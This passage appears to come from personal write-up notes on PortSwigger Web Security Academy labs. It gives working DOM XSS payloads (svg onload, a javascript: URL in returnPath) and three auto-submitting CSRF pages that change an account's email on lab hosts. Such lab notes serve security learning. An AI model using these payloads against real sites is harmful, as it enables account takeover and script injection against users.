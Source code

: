 My solution: `/?search=<svg%20onload=alert(1)>`

#### DOM XSS in jQuery anchor href attribute sink using location.search source

Searched for `$('` and found:

```javascript
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```

My solution: `/feedback?returnPath=javascript:alert(1)`


## CSRF
#### CSRF vulnerability with no defenses
```html
<form id="login-form" action="https://ac7c1f141f49363a802c49eb00fa00e2.web-security-academy.net/email/change-email" method="POST">
<input required type="email" name="email" value="hello@gmail.com">
</form>

<script>
    document.getElementById('login-form').submit();
</script>
```

#### CSRF where token validation depends on request method
Change `POST` to `GET` and shift parameters to url.

```html
<script>
location = 'https://ac4c1f501e3bfd64806c06d0000f0051.web-security-academy.net/email/change-email?email=asdf%40gmail.com&csrf=vHc3lGN9FC8ykr2S0jFKrjFZePqCMXx7';
</script>
```

#### CSRF where token validation depends on token being present

```html
<form action="https://ac0d1f821fe3342a801e0d2900600037.web-security-academy.net/email/change-email" method="POST" id="myForm">
<input name="email" value="blah">
</form>

<script>
document.getElementById("myForm").submit();
</script>
```

#### CSRF where token is not tied to user session
